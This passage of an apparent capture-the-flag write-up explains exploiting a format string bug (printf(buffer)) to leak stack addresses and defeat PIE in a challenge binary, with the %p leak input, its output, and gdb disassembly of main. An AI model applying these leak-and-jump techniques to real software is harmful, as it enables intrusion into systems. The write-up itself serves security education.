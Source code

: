 Inside ```call_functions``` there's a ```printf(buffer)``` call which allows me to perform a format string vulnerability.  I'm not going to explain how format string vulnerabilities work, but here's a great resource which I used when I first learned about them: [Exploit 101 - Format Strings](https://axcheron.github.io/exploit-101-format-strings/){:target="_blank"}

Later in the ```call_function``` the program will ask for an address to which it will then jump. Obviously I want to somehow execute ```win``` but I would need its address and since PIE is enabled the address will be randomized on each execution.

I'll try to leak some addresses off of the stack using the vulnerability. I'll use gdb as my debugger.

By inputting a bunch of ```%p``` we can print values from the stack in an address format

```
gef➤  r

Enter your name:%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
0x5555555592a1 0xfbad2288 0x7fffffffdb10 (nil) (nil) 0x7ffff7f82fd0 (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x20702520702520 0x7fffffffdb70 0x24b11fc267e9600 0x7fffffffdb70 0x555555555441 0x1 0x7ffff7dc6ca8  enter the address to jump to, ex => 0x12345:

```
&nbsp;


There's one address that caught my eye and it's ```0x555555555441```. If I print the address of function ```main``` you can notice that it's ```0x555555555400``` which is very close to the address from the stack.

```
gef➤  p main
$2 = {<text variable, no debug info>} 0x555555555400 <main>
```
&nbsp;

If I disassemble ```main``` you can actually see that ```0x555555555441``` is inside this function. It's also the return address of ```call_functions``` (that part is not important for this challenge).

```
gef➤  disassemble main
Dump of assembler code for function main:
   0x0000555555555400 <+0>:	endbr64
   0x0000555555555404 <+4>:	push   rbp
   0x0000555555555405 <+5>:	mov    rbp,rsp
   0x0000555555555408 <+8>:	lea    rsi,[rip+0xfffffffffffffe9a] 
   0x000055555555540f <+15>:	mov    edi,0xb
   0x0000555555555414 <+20>:	call   0x555555555170 <signal@plt>
   0x0000555555555419 <+25>:	mov    rax,QWORD PTR [rip+0x2bf0]
   0x0000555555555420 <+32>:	mov    ecx,0x0
   0x0000555555555425 <+37>:	mov    edx,0x2
   0x000055555555542a <+42>:	mov    esi,0x0
   0x000055555555542f <+47>:	mov    rdi,rax
   0x0000555555555432 <+50>:	call   0x555555555180 <setvbuf@plt>
   0x0000555555555437 <+55>:	mov    eax,0x0
   0x000055555555543c <+60>:	call   0x5555555552c7 <call_functions>
   0x0000555555555441 <+65>:	mov    eax,0x0 <--- instruction at the address from the stack
...

```
&nbsp;
